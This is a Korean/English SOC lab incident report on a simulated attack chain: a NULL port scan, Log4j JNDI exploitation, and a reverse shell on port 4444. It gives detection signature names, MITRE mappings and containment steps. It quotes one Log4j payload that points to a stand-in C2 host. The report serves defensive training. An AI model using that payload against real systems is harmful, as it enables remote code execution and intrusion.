

# 🚨 Incident Investigation Report: INC-20260824-001

## 1. Incident Overview

| Field | Value |
|---|---|
| **Incident ID** | `INC-20260824-001` |
| **Attack Scenario** | Multi-Stage Kill Chain (Reconnaissance ➔ Web Exploitation ➔ C2 Exfiltration) |
| **Attacker IP** | `10.77.20.20` (`soc-attacker`) |
| **Victim IP** | `10.77.30.20` (`soc-victim`, Port 3000 / 80 / 4444) |
| **First Detected** | `2026-08-24T15:30:10Z` |
| **Severity** | **CRITICAL** |
| **Final Verdict** | **`TRUE_POSITIVE`** |

---

## 2. Attack Progression & Evidence Chain

### 1단계: 네트워크 포트 스캔 (Reconnaissance)
* **탐지 이벤트**: `SOC-SCAN: Nmap Stealth NULL Scan Detected (Zero Flags)` (SID: `9000001`, Protocol: TCP)
* **MITRE ATT&CK**: `T1046` (Network Service Discovery)
* **분석 결과**: 공격자(`10.77.20.20`)가 TCP 플래그가 모두 0인 비정상 패킷을 대량 전송하여 포트 개방 여부 탐색.

### 2단계: 웹 취약점 악용 (Initial Access & Execution)
* **탐지 이벤트**: `SOC-ATTACK: Remote Code Execution - Apache Log4j JNDI Lookup (${jndi:})` (SID: `9010040`)
* **MITRE ATT&CK**: `T1190` (Exploit Public-Facing Application)
* **분석 결과**: HTTP User-Agent 헤더에 `${jndi:ldap://evil-c2.lab:1389/Exploit}` 페이로드를 삽입하여 RCE 시도.

### 3단계: 리버스 쉘 및 C2 연결 (Command & Control)
* **탐지 이벤트**: `SOC-MALWARE: Interactive Reverse Shell Session Established (/bin/sh prompt detected)` (SID: `9030010`, Port: 4444)
* **MITRE ATT&CK**: `T1059.004` (Unix Shell), `T1071` (Application Layer Protocol)
* **분석 결과**: 희생 서버에서 외부 공격자 포트 4444로 역방향 대화형 `/bin/sh` 쉘 연결 수립 확인.

---

## 3. Threat Intelligence & Correlation Analysis

* **상관분석 엔진 판정**:
  * 동일 공격자 IP(`10.77.20.20`)에서 60분 이내에 3개 공격 단계(정찰 ➔ 초기침투 ➔ C2) 연속 발생 확인.
  * 복합 침해사고(Multi-Stage Incident)로 자동 승격 판정.

---

## 4. SOC Analyst Response & Containment

1. **방화벽 긴급 차단**: 게이트웨이 `nftables`에 공격자 IP `10.77.20.20` 즉각 DROP 룰 추가.
2. **세션 강제 종료**: 희생 서버 4444 포트 아웃바운드 연결 프로세스 kill.
3. **취약점 조치**: 취약 라이브러리 패치 및 WAF 차단 룰셋 적용.
4. **플레이북 참조**: [`playbooks/04_malware_c2_investigation.md`](file:///C:/Users/user/Documents/ChatGPT/Suricata-Snort-SOC-Lab/playbooks/04_malware_c2_investigation.md)
